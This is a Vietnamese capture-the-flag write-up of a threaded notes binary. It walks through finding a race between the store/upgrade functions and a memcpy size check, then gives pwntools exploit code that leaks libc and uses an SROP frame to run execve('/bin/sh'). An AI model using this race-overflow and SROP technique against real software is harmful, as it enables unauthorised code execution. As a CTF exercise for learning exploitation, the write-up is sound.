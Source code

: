**1. Find Bug**
 a, Xem qua chương trình bằng ida
  - ![image](https://user-images.githubusercontent.com/113702087/214768349-f4253b21-1fa8-4470-a735-24fb37c61be3.png)
  - main:
    + chương trình tạo 1 addr bằng shmat, phân vùng địa chỉ là libc
    + đồng thời start 2 thread start_routine(s) và notes(s) chung 1 arg
  - start_routine
  - ![image](https://user-images.githubusercontent.com/113702087/214768955-a3c8256b-e650-422b-8932-ae6334fb532f.png)
  - khi arr[28] = 0 thì start_routine gần như vô hại. Nhưng ta có thể thấy ở bên dưới
  - check
  - ![image](https://user-images.githubusercontent.com/113702087/214768978-25087f51-149c-4427-a984-8e0508da97fd.png)
  - hàm này thực thi memcpy, nếu như ta control được size có thể gây ra lỗi overflow
  - notes
  - ![image](https://user-images.githubusercontent.com/113702087/214769377-c7b814e9-be59-40b4-8ec4-6041e41de01c.png)
  - trong notes có vẻ có nhiều hàm nhưng tôi chỉ quan tâm đến store, upgrade và print
  - store
  - ![image](https://user-images.githubusercontent.com/113702087/214769455-4660bda7-6d07-4f83-b02a-a35592f23be1.png)
  - tại đây arr[28] được set bằng 1, do đó check sẽ được thực thi
 b, Debug
  - đặt bp tại memcpy đễ dễ quan sát
  - ![image](https://user-images.githubusercontent.com/113702087/214771089-7437f6ae-78c7-4c39-8606-f7b078851163.png)
  - có vẻ như khi size > 64 thì chương trình sẽ exit
  - ![image](https://user-images.githubusercontent.com/113702087/214771162-71aea37f-7539-4556-9e5f-f9c4b99e87f1.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214771272-e9c5f2b3-5e7c-4ddc-816d-e2ddbd6e24bd.png)
  - vì là 2 thread chạy độc lập nhau và check được thực thi khi notes được nhập xong
  - do đó tôi đã thực thi store 1 lần nữa sau 2 giây để xem kết quả như nào
  - ![image](https://user-images.githubusercontent.com/113702087/214772013-98b94933-df2d-4fd6-9bb2-8924c94fd47e.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214772062-d5c03284-8826-448a-84c2-96b23e5e7cb5.png)
  - và đây là kết quả sau 2 lần nhập
  - ![image](https://user-images.githubusercontent.com/113702087/214772095-f1797e73-84f9-4c6d-8430-97636403537b.png)
  - vậy là tôi có thể control được savedrip rồi và thực thi srop execve('/bin/sh', 0, 0)

**2. Exploit**
 ```
 binsh_off = 0x274251
libc_off = 0x270041
    
payload = b'/bin/sh\x00' + b'a'*56
store(0, b'chino', 64, payload)

# upgrade
r.recvuntil(b'Sent!\n')
sleep(3)
r.sendline(b'4')
r.sendline(b'5000')
r.send(b'chino')

# leak libc
delandshow(3, 0)
out = r.recvuntil(b'\x7f')
print(out)
size = len(out)
libc_leak = out[size-6:size]
libc = u64(libc_leak + b'\x00'*2)
print(hex(libc))
libc_base = libc - libc_off
binsh = libc - binsh_off
print(hex(libc_base))
print(hex(binsh))
 ```
 - Đầu tiên tôi sẽ leak libc vì địa chỉ cấp phát trên ở libc và ghi chuỗi /bin/sh cũng như có địa chỉ của nó
 - tạo 1 note bằng store rồi đợi tâm 3s dùng upgrade để chỉnh lại size thành 5000 rồi in ra
 - ![image](https://user-images.githubusercontent.com/113702087/214776413-40ff9549-f9de-4abf-a109-7f13163dd28f.png)
 - nó được cấp phát tại 0x00007ffff7ffa000 và sẽ in ra các địa chỉ libc trong ld
 ```
 store(0, b'chino', 64, payload)
sleep(2)
payload += b'a'*8 + p64(pop_rdi) + p64(0xf) + p64(exe.sym['syscall'])

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = binsh
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall
payload += bytes(frame)
store(0, b'chino', 0x1000, payload)
 ```
 - tạo lại 1 notes nhằm thực thi check 1 lần nữa, rồi đợi 2s để pass qua if rồi gửi lại notes có SROP
 - get shell
 - ![image](https://user-images.githubusercontent.com/113702087/214777198-3eb2890b-52e1-49c2-8f06-acda049564b8.png)
 - bài này chưa down libc về nên sài libc trong máy :>
